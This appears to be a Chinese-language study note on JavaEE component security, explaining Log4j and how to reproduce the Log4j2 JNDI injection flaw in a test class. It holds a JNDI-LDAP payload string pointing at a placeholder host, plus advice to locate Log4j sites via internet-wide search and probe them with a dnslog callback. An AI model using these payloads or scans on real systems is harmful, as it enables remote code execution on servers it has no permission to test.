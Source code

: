 ```yaml
---
title: JavaEE应用&Log4j日志&FastJson序列化&JNDI注入
published: 2025-10-23
description: JavaEE第三方组件的调用以及对JNDI的认识。
tags: [JavaEE,安全开发]
category: 网络安全
draft: false
---
```


## Java—三方组件—Log4J&JNDI

### Log4j

**可以利用网络空间查询哪些站用了log4j，把利用代码的IP地址改为dnslog地址，如果有回显就说明漏洞存在。**

Apache 的一个开源项目，通过使用Log4j，我们可以控制日志信息输送的目的地是控制台、文件、 GUI 组件，甚至是套接口服务器、NT的事件记录器、UNIX Syslog守护进程等；我们也可以控制每一条日志的输出格式；通过定义每一条日志信息的级别，我们能够更加细致地控制日志的生成过程。最令人感兴趣的就是，这些可以通过一个配置文件来灵活地进行配置，而不需要修改应用的代码。

#### Log4j组件安全复现

1. Maven引用Log4j
2. 接受用户输入值
3. Log4j处理错误输入

4. 利用jndi-ldap执行

Test:

String code="test";

String code="${java:os}";

logger.error("{}",code);

String exp="${jndi:ldap://xx.xx.xx.xx:xx/xxx}";

在idea中直接在xml文件写入log4j依赖，更新maven就会在外部库中看到，这样就是引入成功了。

之后可以创建Log4jTest.java，log4j是开源的日志记录框架，用于记录程序输入输出日志信息，log4j2 中存在JNDI注入漏洞，当程序记录用户输入的数据时，即可触发该漏洞，成功利用该漏洞可在目标服务器上执行任意代码。

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jTest {

    private static  final Logger logger= LogManager.getLogger(Log4jTest.class);

    public static void main(String[] args) {

        // 如果这个code变量是可控的，
        String code =  "${java:os}";
        logger.error("{}",code);
    }
}
```
